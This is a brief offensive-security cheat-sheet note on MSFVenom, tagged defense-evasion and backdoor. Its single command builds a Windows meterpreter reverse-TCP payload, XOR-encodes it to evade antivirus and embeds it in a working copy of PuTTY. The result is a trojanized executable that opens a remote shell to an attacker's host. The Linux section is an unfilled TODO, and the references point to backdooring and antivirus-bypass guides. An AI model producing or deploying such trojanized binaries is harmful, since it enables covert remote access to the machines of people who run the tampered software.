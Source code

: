 # 02 - MSFVenom

Search Tag(s): #defense-evasion #backdoor #metasploit-framework

## 2.1 - Windows

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x64/xor_dynamic -i 10 -k -x putty_x64.exe -o backdoored_putty_x64.exe
```

## 2.2 - Linux

TODO: Fill in the steps

---
## References

- [Backdooring Putty](https://fluidattacks.com/blog/backdooring-putty/)

- [Patching Windows Executable with the Backdoor](https://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory)

- [RoseSecurity: Bypass AV Payload Detection](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.md)

- [OffSec: Metasploit Unleashed binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)